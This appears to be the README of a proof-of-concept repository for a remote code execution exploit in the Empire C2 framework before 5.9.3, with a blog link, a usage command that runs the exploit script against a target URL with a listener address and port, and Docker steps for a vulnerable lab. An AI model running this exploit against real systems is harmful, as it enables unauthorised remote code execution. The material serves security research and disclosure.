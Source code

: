 # Empire-C2-RCE-PoC
RCE PoC for Empire C2 framework &lt;5.9.3

### Technical Blog
[Exploiting Empire C2 Framework](https://aceresponder.com/blog/exploiting-empire-c2-framework)

### Usage

```
pip install -r requirements.txt
python3 ./rotj.py 'http://192.168.158.171:80' 127.0.0.1 4444
```

### Docker

```
sudo docker build . exploitable/empire
sudo docker run -it -p 1337:1337 -p 5000:5000 exploitable/empire

EMPIRE
sudo docker exec -it 2ec72f1568dd ./ps-empire client

```
